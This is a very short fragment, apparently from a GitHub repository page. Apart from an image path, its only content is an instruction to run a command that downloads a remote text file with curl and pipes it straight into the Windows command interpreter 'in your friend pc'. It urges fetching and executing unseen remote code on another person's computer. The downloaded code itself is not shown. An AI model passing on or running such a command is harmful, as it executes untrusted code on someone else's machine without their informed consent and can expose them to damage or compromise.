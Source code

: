 run "curl https://raw.githubusercontent.com/Paopun20/secret-cmd/main/code.txt | cmd" in your friend pc
